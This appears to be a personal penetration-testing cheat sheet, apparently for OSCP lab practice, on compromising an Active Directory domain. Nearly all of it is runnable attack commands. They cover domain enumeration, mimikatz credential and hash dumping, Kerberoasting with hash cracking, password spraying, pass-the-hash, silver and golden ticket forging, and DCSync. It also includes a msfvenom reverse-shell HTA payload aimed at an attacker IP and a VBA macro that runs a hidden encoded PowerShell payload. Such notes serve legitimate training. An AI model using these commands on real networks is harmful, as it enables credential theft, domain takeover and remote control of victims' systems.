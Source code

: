 #### Active Directory

```
net user
net user /domain
net user jeff_admin /domain
net group /domain
```

#### LDAP Provider Path Format

```
LDAP://HostName[:PortNumber][/DistinguishedName]

```

```
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

```


#### Logged on Users

```
Import-Module .\PowerView.ps1

Get-NetLoggedon -ComputerName client251

Get-NetSession -ComputerName dc01

```
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/situational_awareness/network/powerview.ps1


import-module C:\Tools\active_directory\GetSPN.ps1
Get-SPN -type service -search "*.corp.com*"

https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/situational_awareness/network/Get-SPN.ps1


#### Cached creds retrieval

```
mimikatz.exe

privilege::debug

sekurlsa::logonpasswords

sekurlsa::tickets

```

#### Windows system - mimikatz

```
C:\Tools\password_attacks\mimikatz.exe
privilege::debug
token::elevate
lsadump::sam

```

#### Service account attack

Requesting service ticket and display tickets

```
Add-Type -AssemblyName System.IdentityModel 

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'

klist
```

```
kerberos::list /export

```

Cracking the ticket

```
sudo apt update && sudo apt install kerberoast

python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000- Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi

```
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1

https://github.com/nidem/kerberoast

#### Cracking password using JTR

Use the script from repo
https://github.com/nidem/kerberoast

[script under /usr/share/john/ may work as well] 


```
john --format=krb5tgs ./crack --wordlist=~/oscp/exer/wordlist.txt

python kirbi2john.py ~/oscp/exer/1-40a10000-offsec@MSSQLSvc~CorpSqlServer.corp.com~1433-CORP.COM.kirbi > crack

```
#### Using Invoke-kerberoast.ps1

```

Import-module Invoke-kerberoast.ps1

Get-DomainSPNTicket -SPN "HTTP/CorpWebServer.corp.com"

Get-Domain -Domain corp.com

Get-DomainUser -SPN

 Get-DomainUser -domain corp.com

Get-DomainUser


Invoke-kerberoast -OutputFormat john

Invoke-kerberoast -OutputFormat hashcat

hashcat -m 13100 -a 0 kerb-hash0.txt ./wordlist.txt --force

Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"

```

#### Low and Slow Password guessing

```
net accounts

.\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
.\Spray-Passwords.ps1 -File pass.txt -Admin
```
### Lateral movement

#### Pass the Hash

```
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

#### Overpass the Hash

```
sekurlsa::logonpasswords

sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe

klist - no ticket listed

net use \\dc01

klist - ticket listed after net use

 .\PsExec.exe \\dc01 cmd.exe

ipconfig

whoami
```
https://download.sysinternals.com/files/PSTools.zip


#### Pass the Ticket

  get the SID

`whoami /user` 

purge kerberos ticket

```
kerberos::purge

kerberos::list
```

The silver ticket command requires a username (/user), domain name (/domain), the domain SID (/sid), which is highlighted above, the fully qualified host name of the service (/target), the service type (/service:HTTP), and the password hash of the iis_service service account (/rc4).Finally, the generated silver ticket is injected directly into memory with the /ppt flag.

```
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587- 2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt

kerberos::list

```

lsadump::dcsync /user:corp\iis_service

kerberos::hash /password:puttheservicepasswordhere

#### DCOM - Need TCP COM port 135 and SMB port 445 

POC Macro

```
 Sub mymacro()
Shell ("notepad.exe")
End Sub
```
Execute Excel Macro Remotely

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "172.16.175.5"))
$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"
$RemotePath = "\\172.16.175.5\c$\myexcel.xls" 
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
$Path = "\\172.16.175.5\c$\Windows\sysWOW64\config\systemprofile\Desktop" 
$temp = [system.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\myexcel.xls") 
$com.Run("mymacro")

```

Generate shell code

```
msfvenom -p windows/shell_reverse_tcp LHOST=172.16.175.10 LPORT=4444 -f hta-psh -o evil.hta
```
Split code

```
str = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQ....."
n = 50
for i in range(0, len(str), n):
print "Str = Str + " + '"' + str[i:i+n] + '"'
```
Updated POC Macro

```
Sub MyMacro()
Dim Str As String
Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"

Str = Str + "EQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHM"
Str = Str + "AXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="
Shell (Str)
End Sub
```

#### Golden ticket

Dumping password hashes
```
mimikatz # privilege::debug

mimikatz # lsadump::lsa /patch

```
Creating golden ticket

```
mimikatz # kerberos::purge

mimikatz # kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587- 2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt

mimikatz # misc::cmd - Launching new cmd prompt with golden ticket injected

psexec.exe \\dc01 cmd.exe
```

Synching of domain controllers

```
lsadump::dcsync /user:Administrator

```



https://www.pentestpartners.com/security-blog/how-to-kerberoast-like-a-boss/

